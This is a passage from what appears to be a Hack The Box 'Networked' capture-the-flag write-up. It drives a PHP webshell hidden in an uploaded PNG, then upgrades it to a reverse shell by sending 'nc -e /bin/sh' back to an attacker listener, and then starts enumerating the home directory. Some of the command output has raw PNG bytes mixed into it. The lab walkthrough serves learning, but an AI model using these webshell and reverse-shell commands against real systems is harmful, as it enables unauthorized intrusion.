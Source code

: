 ```http://website.com/cmd.php?0=shell_exec -d 1=id```
X����s^7�����~_�}�'���ɿ_�|�00cٹg��=2��Q0
F�(�`��Q0
��
IEND�B`�root@endeavour:~/htb/networked# wget -q -O - http://10.10.10.146/uploads/10_10_14_75.php.png?0=shell_exec --post-data="1=pwd"
�PNG
�
IHDR ���	pHYs���+IDATH�c\/var/www/html/uploads
X����s^7�����~_�}�'���ɿ_�|�00cٹg��=2��Q0
F�(�`��Q0
��
```
so we passed both **id** and **pwd** as variables in our command and received that we are user **apache** and ar ein the **/var/www/html/uploads** directory. But this is quite clunky, lets try to get out of a webshell and into something a little more workable. Lets set up a listener first:

```console
root@endeavour:~/htb/networked# nc -lvnp 42069
listening on [any] 42069 ...
```
and then pass a command through the webshell to connect back to our listener:

```console
root@endeavour:~/htb/networked# wget -q -O - http://10.10.10.146/uploads/10_10_14_75.php.png?0=shell_exec --post-data="1=nc -e /bin/sh 10.10.14.75 42069"
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.146] 40920
ls
10_10_14_75.php.png
127_0_0_1.png
127_0_0_2.png
127_0_0_3.png
127_0_0_4.png
index.html
id
uid=48(apache) gid=48(apache) groups=48(apache)
pwd
/var/www/html/uploads
```
Alright, a much better shell. Lets see if we can grab the user flag and enumerate some.

```console
ls
guly
cd guly
ls
check_attack.php
crontab.guly
user.txt
cat user.txt
```
Nothing showed up when we tried to cat the user flag. My assumption is that we do not have access to the file.

